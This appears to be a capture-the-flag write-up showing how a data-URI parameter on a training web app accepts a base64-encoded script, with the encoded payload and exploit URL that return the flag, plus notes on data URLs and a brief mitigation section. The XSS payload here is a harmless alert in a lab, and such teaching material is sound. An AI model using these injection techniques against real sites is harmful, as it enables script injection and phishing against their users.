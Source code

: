 # Script Injection (Data URL/URI)

Inspecting the page reveals that the image is acually an HTML object. Knowing this we can pass in the url anything we want and the server should run it.

## How to exploit:

[Data URI](https://en.wikipedia.org/wiki/Data_URI_scheme)

Using the wiki page referenced above we see that the "data" URL is vulnrable to XSS injection.

For this to work we need to use [Base 64 encoding](https://www.base64encode.org/) on our script.
```bash
<script>alert("Boom!!!")</script>
```
Encoded with [Base 64](https://www.base64encode.org/) gives us:
```bash
PHNjcmlwdD5hbGVydCgiQm9vbSEhISIpPC9zY3JpcHQ+
```

Now modify the src value in the url as follows:
```bash
<ip>/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiQm9vbSEhISIpPC9zY3JpcHQ+
```

This gets the server to execute our code and return the flag.

## A brief explination of Base 64:

Base64 is a group of binary-to-text encoding schemes that represent binary data in an ASCII string format by translating it into a radix-64 representation. By consisting only in ASCII characters, base64 strings are generally url-safe, and that's why they can be used to encode data in Data URLs.

## A brief explination of Data URL's:

The data URI can be utilized to construct attack pages that attempt to obtain usernames and passwords from unsuspecting web users. It can also be used to get around cross-site scripting (XSS) restrictions, embedding the attack payload fully inside the address bar, and hosted via URL shortening services rather than needing a full website that is controlled by a third party. As a result, some browsers now block webpages from navigating to data URIs.

### Common problems when creating and using Data URL's

* Syntax: 
The format for data URLs is very simple, but it's easy to forget to put a comma before the "data" segment, or to incorrectly encode the data into base64 format.
Formatting in HTML
A data URL provides a file within a file, which can potentially be very wide relative to the width of the enclosing document. As a URL, the data should be formatable with whitespace (linefeed, tab, or spaces), but there are practical issues that arise when using base64 encoding.

* Length limitations: 
Although Firefox supports data URLs of essentially unlimited length, browsers are not required to support any particular maximum length of data. For example, the Opera 11 browser limited URLs to 65535 characters long which limits data URLs to 65529 characters (65529 characters being the length of the encoded data, not the source, if you use the plain data:, without specifying a MIME type).
Lack of error handling
Invalid parameters in media, or typos when specifying 'base64', are ignored, but no error is provided.

* No support for query strings, etc: 
The data portion of a data URL is opaque, so an attempt to use a query string (page-specific parameters, with the syntax <url>?parameter-data) with a data URL will just include the query string in the data the URL represents.

* Security issues: 
A number of security issues (e.g. phishing) have been associated with data URLs, and navigating to them in the browser's top level. To mitigate such issues, top-level navigation to data:// URLs has been blocked in Firefox 59+ (release version, Nightly/Beta from 58), and we hope to see other browsers follow suit soon. See Blocking Top-Level Navigations to data URLs for Firefox 58 for more details.

## How to protect against:

In this case it would be advised not to use a Data URL to display an image. A simple <img> tag would have been more secure and not expose this page to XSS injection.

Using the right tool for the right job and understanding the vulnribilities of certain tools or objects that you are using.

## Resources:
* <https://snyk.io/vuln/npm:marked:20170112>
* <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs>
* <https://en.wikipedia.org/wiki/Data_URI_scheme>
